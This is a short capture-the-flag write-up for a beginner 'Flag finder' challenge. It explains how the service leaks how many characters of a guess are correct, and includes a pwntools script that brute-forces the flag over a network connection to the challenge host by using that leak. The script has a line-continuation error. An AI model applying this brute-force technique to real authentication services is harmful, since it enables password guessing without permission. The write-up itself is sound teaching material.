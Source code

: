 ```yaml
---
author: Garfield1002
layout: post
date: 2023-09-12 18:00:00 +0200
title: "Flag finder"
tags: misc beginner pctf
excerpt_separator: <!--more-->
---
```


In this challenge, we are tasked with guessing a flag using a `nectcat` service.

<!--more-->

This is less of a _cybersecurity_ challenge and more of a learning to use `netcat` one.

**It requires brute forcing the service, make sure that is the challenge's intent before doing something similar**

## The service

We first need to guess the length of the flag

```
What is the password: p
p is not long enough
```

And once that is done, the server tells us how many characters we got right

```
What is the password: ppppppppppppppppppp
User input: 112
Flag input: 112
There's been an error
```

```
What is the password: pcppppppppppppppppp
User input: 112
Flag input: 112
User input: 99
Flag input: 99
There's been an error
```

## The code

We use `pwntools` for our python scripts and it is particularly useful here.

This script counts how many `\n` characters it received to judge how good a password is

```py
from pwn import *
import time

context.log_level = 'error' # We do not want any messages from pwntools

pwd = ""                    # We could of put pctf{

final_len = 19

# Character set for the brute force
character_set = string.ascii_lowercase \
    + string.ascii_uppercase
    + '0123456789{}'

# How many \n in the current best password attempt
best = 2

for i in range(final_len):
    for c in character_set:
        conn = remote('chal.pctf.competitivecyber.club', 4757)
        conn.recv()
        passwd= pwd + c + "_" * (final_len - 1 - i)

        conn.sendline(passwd)
        time.sleep(0.5)
        count = conn.recv().count(b'\n')

        if count > best:
            best = count
            pwd += c
            print(pwd)
            break
```
